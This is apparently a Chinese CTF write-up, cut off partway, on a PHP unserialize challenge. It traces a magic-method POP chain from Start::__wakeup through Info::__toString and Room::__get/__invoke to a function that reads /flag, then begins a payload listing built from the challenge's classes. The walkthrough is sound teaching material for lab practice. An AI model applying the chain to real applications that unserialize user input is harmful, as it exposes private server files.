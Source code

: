 在这里我们可以看到他是以get方式传参的，在进行反序列化，这可以看到他是考我们一个典型的pop链，什么是pop链？个人看来pop链就是魔术方法触发魔术方法，触发的是另外一个类里面的魔术方法，环环相扣。回到正题，我们整理一下pop链。

```php
unserialize() -> Start::wakeup -> Start::_sayhello() -> Info::construct()->Info::toString()->Room::get() -> Room::invoke() -> Get_hint($file)
```

可以看到反序列化start类的时候他触发了wakeup的魔术方法，在里面他调用了sayhello（）函数，里面他输出了name变量，那如果这个name是个实例化的info类呢？那么就会触发info类的构造函数，在里面他输出来一个promise的字符串，如果promise是个实例化的Info类,就会触发这个\_\_toString(){**当把类作为字符串输出是触发**}，在tostring里面他有个r**eturn $this-&gt;file\['filename'\]-&gt;ffiillee\['ffiilleennaammee'\];**，我们把file\['filename'\]赋值成一个room类那么就相当于访问实例化的room类的**ffiillee\['ffiilleennaammee'\]**显然这个成员变量不存在那么就会调用get()这个魔术方法，在里面他吧变量a当成一个函数出来了，我们就可以把room类赋值进去，不就触发了invoke魔术方法了吗{**当把类作为函数是触发**}，最后我们看下invoke函数，他调用了Get\_hint($file)函数，而这个函数他直接打开/flag这个文件，并且base64加密输出了，得到flag之后解密下就Ok了。  
payload：

```php
<?php
//hint is in hint.php
error_reporting(1);

class Start
{
    public $name='guest';
    public $flag='syst3m("cat 127.0.0.1/etc/hint");';

    public function __construct(){
        echo "I think you need /etc/hint . Before this you need to see the source code";
    }

    public function _sayhello(){
        echo $this->name;
        return 'ok';
    }

    public function __wakeup(){
        echo "hi";
        $this->_sayhello();
    }
    public function __get($cc){
        echo "give you flag : ".$this->flag;
        return ;
    }
}

class Info
{
    private $phonenumber=123123;
    public $promise='I do';

    public function __construct(){
        $this->promise='I will not !!!!';
        return $this->promise;
    }

    public function __toString(){
        return $this->file['filename']->ffiillee['ffiilleennaammee'];
    }
}

class Room
{
    public $filename='/flag';
    public $sth_to_set;
    public $a='';
```